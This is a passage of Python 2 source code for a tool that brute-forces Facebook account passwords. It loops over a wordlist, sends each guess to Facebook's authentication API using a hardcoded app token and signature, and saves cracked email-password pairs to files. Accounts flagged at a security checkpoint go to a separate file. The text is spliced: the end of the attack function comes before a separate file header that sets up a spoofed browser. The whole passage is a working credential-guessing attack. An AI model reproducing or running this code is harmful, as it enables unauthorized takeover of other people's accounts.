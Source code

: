             jalan('\033[1;97m[\xe2\x9c\xba] \033[1;97mPlease wait \033[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\033[1;97m[+] \033[1;97mFounded.'
                        print 52 * '\033[1;97m\xe2\x95\x90'
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[1;97m[+] \033[1;97mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"
                            print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[1;97m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\033[1;97m[!] File not found...'
            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
#!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
